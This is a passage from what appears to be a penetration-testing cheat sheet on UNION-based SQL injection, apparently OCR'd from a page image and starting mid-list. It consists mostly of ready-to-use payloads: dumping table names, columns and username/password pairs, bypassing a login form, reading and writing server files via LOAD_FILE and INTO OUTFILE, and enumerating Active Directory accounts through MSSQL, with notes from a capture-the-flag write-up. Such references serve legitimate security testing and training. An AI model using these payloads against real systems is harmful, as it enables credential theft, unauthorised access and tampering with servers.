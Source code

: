 		\\ Oracle
		\\ SELECT * FROM all_tables
		' UNION SELECT NULL, table_name FROM all_tables--
		' UNION SELECT NULL, column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'


- Get the content of a particular table

		' UNION SELECT NULL,username||'~'||password FROM users--
***
### Login Bypass

- Bypass login page with UNION attack:  

		username=admin' UNION SELECT '123' AS password FROM admins WHERE '1'='1&password=123 

		Is interpreted as:

		SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password

***

### Files manipulation

- Accessing files  

		' union select 1,LOAD_FILE('c:/windows/system32/license.rtf'),3--

- Get a file  

		http://url.com/fetch?id=-1 UNION select 'main.py'

	**The `-1` should be number that report an error.**


- Write file  

		' union select null,'example example',null into OUTFILE '/var/www/mywebserver/example.txt'

***
### Active Directory Access From a UNION Injection
- QUERY AD DOMAIN CONTROLER  
https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html  
https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html  
[Python - Brute Force AD From SQLi](evernote:///view/154730691/s619/1bc19770-5c80-e063-dceb-edb4f3f302c1/1d460891-63f3-60f9-1414-81daf5a18a5c/)

		test' UNION ALL SELECT 58,58,58,DEFAULT_DOMAIN(),58-- gxQm

		test' UNION ALL SELECT 58,58,58,SUSER_SID('MEGACORP\Domain Admins'),58-- gxQm

		test' UNION ALL SELECT 58,58,58,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),58-- gxQm

	*I know the default administrator is RID 500. So I can make this RID by taking 500, converting to hex (0x1f4), padding it to 4 bytes (0x000001f4), and reversing the byte order (0xf4010000). So the administrator RID should be 0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000. To check, I’ll run SUSER_SNAME:*  
